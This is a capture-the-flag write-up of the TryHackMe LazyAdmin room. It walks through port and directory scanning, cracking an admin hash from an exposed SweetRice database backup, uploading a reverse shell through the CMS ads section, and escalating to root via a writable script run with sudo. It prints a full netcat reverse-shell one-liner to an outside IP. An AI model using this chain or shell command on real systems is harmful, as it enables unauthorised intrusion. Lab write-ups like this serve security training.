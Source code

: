 # [LazyAdmin][https://tryhackme.com/r/room/lazyadmin]

## Enumeration

We starting enumarating the open port with *nmap*.

```shell
$ sudo nmap -p- -n -Pn -sS --min-rate 2000 $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-11 23:07 -05
Warning: 10.10.141.185 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.141.185
Host is up (0.41s latency).
Not shown: 65468 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 74.33 seconds
```

Wee see a default *apache* page, we will fuzz with *gobuster* to find directories.

```shell
$ gobuster dir -u http://10.10.141.185/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.185/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/content              (Status: 301) [Size: 316] [--> http://10.10.141.185/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

We fin the **content** dorectory.

![content](./images/content.png)

## Vulnerability Exploitation

This home page gives us a clue, **SweetRice**. searching we find that **SweetRice** is simple website management system, its github is https://github.com/sweetrice/SweetRice.

![sweetrice-github.png](./images/sweetrice-github.png)

The 2 important directories are **as** and **inc**.

In **as** we can find a login page, then we need find crendentials.

![as-login](./images/as-login.png)

In **inc** we can find a list of files and directories, and we can see a backip in the mysql_backup directory.

![mysql_backup](./images/mysql-backup.png)

Downliad the sql file, we can use: `wget http://10.10.141.185/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`. and we can find a user and hahed password.

```shell
$ grep admin mysql_bakup_20191129023059-1.5.1.sql 
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";
s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";
s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website
management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and
uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed
\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\"
s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

| user    | hahed password                   |
|---------|----------------------------------|
| manager | 42f749ade7f9e195bf475f37a44cafcb |

We use https://crackstation.net/ to cracker the hash and logging.

![dashboard](./images/dashboard.png)

Scanning the website we found that we can add files in the **ads** section. and we add the rever shell of pentestmonkey from https://www.revshells.com/.

![revshell](./images/revshell.png)

The revsehll file is in **/inc/ads/** directory.

![ads-directory](./images/ads-directory.png)

We execute the rever shell and we are inside the machine.

```shell
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.100.192] from (UNKNOWN) [10.10.141.185] 50254
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 08:08:07 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We can read the user flag in /home/itguy and we can see something else, we can exexute **backup.pl**.

```shell
www-data@THM-Chal:/home/itguy$ ls -al
total 148
drwxr-xr-x 18 itguy itguy 4096 Nov 30  2019 .
drwxr-xr-x  3 root  root  4096 Nov 29  2019 ..
...
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
-rw-r--r--  1 itguy itguy 8980 Nov 29  2019 examples.desktop
-rw-rw-r--  1 itguy itguy   16 Nov 29  2019 mysql_login.txt
-rw-rw-r--  1 itguy itguy   38 Nov 29  2019 user.txt
```

## Privilege Escalation

If we can see the user's privileges.

```shell 
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

We can execute the file we found and perl as root, but we can't write to the file, we'll check that.

```shell
www-data@THM-Chal:/home/itguy$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ 
```

The **backup.pl** file execute the **copy.sh** file and we can **write** in **copy.sh**, and this file is a rever shell, we change the ip for our ip.

![root](./images/root.png)
